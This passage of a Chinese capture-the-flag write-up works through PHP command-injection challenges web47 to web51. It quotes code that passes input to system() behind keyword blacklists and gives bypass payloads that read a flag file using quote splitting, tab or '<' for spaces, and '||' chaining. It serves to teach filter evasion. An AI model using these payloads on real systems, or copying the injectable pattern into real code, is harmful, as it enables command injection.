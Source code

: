 `*`又被过滤了，用单双引号或`\`绕过，`payload：/?c=tac%09fl''ag.php||ls`

## web47

```php
if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail/i", $c)){
    system($c." >/dev/null 2>&1");
  }
```

又过滤了些不影响的命令，payload同上一题

## web48

```php
if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`/i", $c)){
        system($c." >/dev/null 2>&1");
    }
```

增加了过滤的内容，但都是一些无关紧要的命令，payload同上一题

## web49

```php
if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%/i", $c)){
        system($c." >/dev/null 2>&1");
    }
```

换个payload，空格可以用`<`绕过，`/?c=tac<fl''ag.php||ls`

## web50

```php
if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c." >/dev/null 2>&1");
    }
```

`\x09`被过滤了，空格就不能用`%09`绕过，payload可以用上一题

## web51

```php
if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c." >/dev/null 2>&1");
    }
```

